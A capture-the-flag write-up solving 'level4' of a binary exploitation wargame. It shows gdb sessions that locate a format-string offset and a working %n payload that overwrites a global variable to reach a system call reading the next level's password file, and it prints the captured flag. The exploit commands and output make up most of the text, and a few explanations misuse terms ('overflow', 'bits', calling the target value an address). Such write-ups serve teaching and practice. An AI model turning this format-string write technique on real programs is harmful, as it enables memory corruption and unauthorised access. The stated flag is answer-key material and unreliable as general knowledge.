 scp -P 4242 level4@192.168.56.103:/home/user/level4/level4 /home/zouz/Desktop/level4

function main call n() that call a fgets() then call a printf in another function called p() then, back in n(), a comparison is done on the m value like in level 3 to access a system call that will print our flag. It's a format string attack again we have to execute.

0x0804848d      mov eax, dword [m] ; 0x8049810
0x08048492      cmp eax, 0x1025544

0x1025544 is the address of the value of m 
we need to know the offset of the overflow

```
(gdb) r <<< $(python -c "print 'A' * 20 + '%x ' * 20")
Starting program: /home/user/level4/level4 <<< $(python -c'print "A" * 20 + "%x " * 20')
AAAAAAAAAAAAAAAAAAAAb7ff26b0 bffff754 b7fd0ff4 0 0 bffff718 804848d bffff510 200 b7fd1ac0 b7ff37d0 41414141 41414141 41414141 41414141 41414141 25207825 78252078 20782520 25207825

```

it's 12, and if you print the hexadecimal value at the address of m, it matches with the overflow offset

```
(gdb) r <<< $(python -c "print '\x10\x98\x04\x08' + '%12\$x'")
Starting program: /home/user/level4/level4 <<< $(python -c "print '\x10\x98\x04\x08' + '%12\$x'")
8049810
```

Then it's the same technique than level 3 but with a different formatter.
0x1025544 = 16930116
we'll have to add 16930112 because of the mention of the redirection address before which takes 4 bits then add the offset

%[n]d =>  minimum width of n spaces, which, by default, will be right-justified

```
(gdb) r <<< $(python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n"')
...
 -1208015184
/bin/cat: /home/user/level5/.pass: Permission denied
```

in a terminal :
$ python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n"' | ./level4

unlock the system call and here is the flag :
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a